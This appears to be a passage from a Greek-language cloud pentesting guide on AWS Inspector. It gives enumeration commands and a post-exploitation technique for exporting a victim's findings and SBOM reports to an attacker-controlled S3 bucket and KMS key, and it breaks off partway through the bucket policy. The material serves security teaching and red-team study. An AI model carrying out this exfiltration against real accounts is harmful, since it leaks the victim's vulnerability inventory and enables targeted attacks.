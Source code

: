 ```bash
## Assessments info, there is a "describe" action for each one to get more info
aws inspector list-assessment-runs
aws inspector list-assessment-targets
aws inspector list-assessment-templates
aws inspector list-event-subscriptions

## Get findings
aws inspector list-findings

## Get exclusions
aws inspector list-exclusions --assessment-run-arn <arn>

## Rule packages
aws inspector list-rules-packages
```
### Post Exploitation

{% hint style="success" %}
Από την οπτική γωνία ενός επιτιθέμενου, αυτή η υπηρεσία μπορεί να βοηθήσει τον επιτιθέμενο να βρει ευπάθειες και εκθέσεις δικτύου που θα μπορούσαν να τον βοηθήσουν να παραβιάσει άλλες περιπτώσεις/δοχεία.

Ωστόσο, ένας επιτιθέμενος θα μπορούσε επίσης να ενδιαφέρεται να διαταράξει αυτή την υπηρεσία ώστε το θύμα να μην μπορεί να δει ευπάθειες (όλες ή συγκεκριμένες).
{% endhint %}

#### `inspector2:CreateFindingsReport`, `inspector2:CreateSBOMReport`

Ένας επιτιθέμενος θα μπορούσε να δημιουργήσει λεπτομερείς αναφορές ευπαθειών ή λογαριασμού υλικού λογισμικού (SBOMs) και να τις εξάγει από το περιβάλλον AWS σας. Αυτές οι πληροφορίες θα μπορούσαν να εκμεταλλευτούν για να εντοπίσουν συγκεκριμένες αδυναμίες, παρωχημένο λογισμικό ή ανασφαλείς εξαρτήσεις, επιτρέποντας στοχευμένες επιθέσεις.
```bash
# Findings report
aws inspector2 create-findings-report --report-format <CSV | JSON> --s3-destination <bucketName=string,keyPrefix=string,kmsKeyArn=string> [--filter-criteria <value>]
# SBOM report
aws inspector2 create-sbom-report --report-format <CYCLONEDX_1_4 | SPDX_2_3> --s3-destination <bucketName=string,keyPrefix=string,kmsKeyArn=string> [--resource-filter-criteria <value>]
```
Το παρακάτω παράδειγμα δείχνει πώς να εξάγετε όλα τα ενεργά ευρήματα από το Amazon Inspector σε ένα Amazon S3 Bucket που ελέγχεται από τον επιτιθέμενο με ένα κλειδί Amazon KMS που ελέγχεται από τον επιτιθέμενο:

1. **Δημιουργήστε ένα Amazon S3 Bucket** και επισυνάψτε μια πολιτική σε αυτό ώστε να είναι προσβάσιμο από το θύμα Amazon Inspector:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "allow-inspector",
"Effect": "Allow",
"Principal": {
"Service": "inspector2.amazonaws.com"
},
"Action": [
"s3:PutObject",
"s3:PutObjectAcl",
"s3:AbortMultipartUpload"
],
"Resource": "arn:aws:s3:::inspector-findings/*",
"Condition": {
"StringEquals": {
```